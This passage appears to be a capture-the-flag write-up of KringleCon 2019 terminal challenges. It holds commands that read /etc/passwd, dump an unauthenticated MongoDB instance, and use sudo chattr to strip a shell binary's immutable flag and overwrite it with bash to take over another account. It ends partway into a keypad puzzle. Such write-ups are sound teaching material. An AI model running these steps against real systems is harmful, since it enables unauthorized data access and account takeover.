 https://docker2019.kringlecon.com/?challenge=mongo&id=aeb965b7-7032-4d84-95ac-ea0c879bf559

    $ ps -ef
    mongo       10     1  3 00:49 ?        00:00:01 /usr/bin/mongod --quiet --fork --port 12121

    elf@1c11471c21d3:~$ grep mongo /etc/passwd
    mongodb:x:101:101::/var/lib/mongodb:/usr/sbin/nologin
    mongo:x:1000:1000::/home/mongo:/bin/sh

dump

    $ mongodump --port 12121

    $ cat dump/elfu/solution.bson
    You did good! Just run the command between the stars: ** db.loadServerScripts();displaySolution(); **

connect

    mongo --port 12121

    > show dbs
    admin   0.000GB
    config  0.000GB
    elfu    0.000GB
    local   0.000GB
    test    0.000GB

**Answer:**

    > use elfu
    > db.loadServerScripts();displaySolution();


## Nyanshell - Alabaster Snowball

https://docker2019.kringlecon.com/?challenge=nyanshell&id=aeb965b7-7032-4d84-95ac-ea0c879bf559



**Answer:**

    lsattr /bin/nsh
    sudo chattr -i /bin/nsh
    cat /bin/bash > /bin/nsh
    su - alabaster_snowball


## Frosty Keypad - Tangle Coalbox

https://keypad.elfu.org/?challenge=keypad

I've got a few clues for you.
One digit is repeated once.
The code is a prime number.
You can probably tell by looking at the keypad which buttons are used.

I found a list of the first 10k prime numbers, and ran this command against it. It spit out a list of only a few options.
